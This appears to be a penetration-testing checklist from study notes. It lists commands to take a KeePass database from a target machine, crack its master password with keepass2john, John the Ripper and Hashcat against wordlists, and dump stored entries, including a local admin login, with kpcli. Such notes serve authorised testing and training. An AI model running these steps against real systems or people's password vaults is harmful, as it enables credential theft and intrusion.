 
- [ ] Transfer the `.kdbx` file from Target Machine to your Kali Machine

- [ ] Convert the KeePass database into a format that can be used for cracking with `keepass2john` on your Kali Machine
```
keepass2john Database.kdbx > keepass.hash
```

- [ ] Crack the KeePass database with `JtR` on your Kali Machine
```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
```
```
john --wordlist=/usr/share/wordlists/fasttrack.txt keepass.hash
```

- [ ] Crack the KeePass database with `Hashcat` on your Kali Machine
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

- [ ] List groups and entries of KeePass database file with `kpcli` on your Kali Machine
```
kpcli --kdb=Database.kdbx
ls
cd 'Database/Windows'
show -f 0
show -f "LOGIN local admin"
```